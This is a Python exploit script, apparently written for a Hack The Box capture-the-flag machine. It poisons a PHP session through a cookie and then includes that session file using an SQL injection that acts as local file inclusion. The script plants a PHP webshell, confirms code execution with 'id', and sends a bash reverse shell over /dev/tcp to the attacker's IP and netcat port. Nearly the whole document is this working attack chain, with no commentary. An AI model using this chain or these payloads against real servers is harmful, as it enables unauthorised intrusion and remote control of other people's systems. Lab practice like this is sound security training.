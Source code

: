 ```python

ip = args.local_ip or get_my_ip()  # Assuming you have a function get_my_ip() defined
nc_port = args.nc_port

test_payload = urllib.parse.quote('<?php system("id");?>')
webshell = urllib.parse.quote('<?php system($_REQUEST["cmd"]); ?>')

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

BASE_URL = 'https://www.nestedflanders.htb/index.php'

## RETRIEVE COOKIE VIA FIRST GET REQUEST
headers = {
	'User-Agent':'innocent'
}
r = requests.get(BASE_URL, verify=False, proxies=proxies)
php_cookie = r.cookies["PHPSESSID"]
print("[+] Retrieved cookie: {}".format(php_cookie))

## TEST RCE
print("[+] Testing RCE...")
cookies = {
	'PHPSESSID':php_cookie,
	'shell':test_payload
}
print("[+] Writing webshell to run 'id'...")
r1 = requests.get(BASE_URL, cookies=cookies, verify=False, proxies=proxies)

print('[+] Reading file via LFI via SQL')
params = {
		'id': f"465' AND 1=2 UNION SELECT 'lol\\' UNION SELECT \\'/var/lib/php/sessions/sess_{php_cookie}\\' -- -'-- -"
}
print(f"[+] Query used: {params}")
r2 = requests.get(BASE_URL, cookies=cookies, verify=False, proxies=proxies, params=params)

if not re.search(r"www-data", r2.text):
	print("[-] RCE Failed")
	sys.exit(1)

print("[+] RCE worked!")

## GET SHELL
print("[+] Getting shell now")
cookies = {
	'PHPSESSID': php_cookie,
	'rev':webshell
}

rev_shell = "bash -c 'bash -i >& /dev/tcp/{}/{} 0>&1'".format(ip, nc_port)
print('[+] Payload used: {}'.format(rev_shell))
params = {
	'id': f"465' AND 1=2 UNION SELECT 'lol\\' UNION SELECT \\'/var/lib/php/sessions/sess_{php_cookie}\\' -- -'-- -",
	'cmd': rev_shell
}
print("[+] Triggering shell...")
requests.get(BASE_URL, cookies=cookies, verify=False, proxies=proxies, params=params)

## For some reason, two requests are needed!
requests.get(BASE_URL, cookies=cookies, verify=False, proxies=proxies, params=params)
```
